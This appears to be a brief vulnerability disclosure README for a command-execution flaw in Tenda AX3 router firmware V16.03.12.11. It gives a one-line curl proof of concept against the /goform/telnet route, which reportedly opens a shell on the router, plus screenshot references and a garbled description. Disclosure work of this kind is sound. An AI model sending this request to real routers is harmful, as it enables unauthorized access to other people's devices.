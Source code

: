 # Tenda AX3 Command Execution

**Vender** ：Tenda

**Firmware version**:V16.03.12.11

**Exploit Author**: GD@hillstone

**Vendor Homepage**: https://www.tenda.com.cn/



## POC

An issue was discovered in Tenda AX3 V16.03.12.11 devices. An HTTP request within the handler function of the /goform/telnet  route. This could lead to  Shell Metacharacters.

![1](./1.jpg)



When we send packets, the router will be shell

```
curl  -X  GET  http://127.0.0.1/goform/telnet
```





![poc](./poc.jpg)

![poc1](./poc1.jpg)

